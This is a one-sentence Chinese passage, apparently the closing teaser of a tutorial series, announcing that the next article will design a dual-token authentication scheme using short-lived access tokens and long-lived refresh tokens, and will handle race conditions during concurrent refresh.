下一篇，我们将基于这些理论，设计并实现模块三的核心架构：**双令牌策略**——用短命的 Access Token 实现无状态验证，用长期的 Refresh Token 维持用户的登录态，同时解决并发刷新带来的竞态问题。
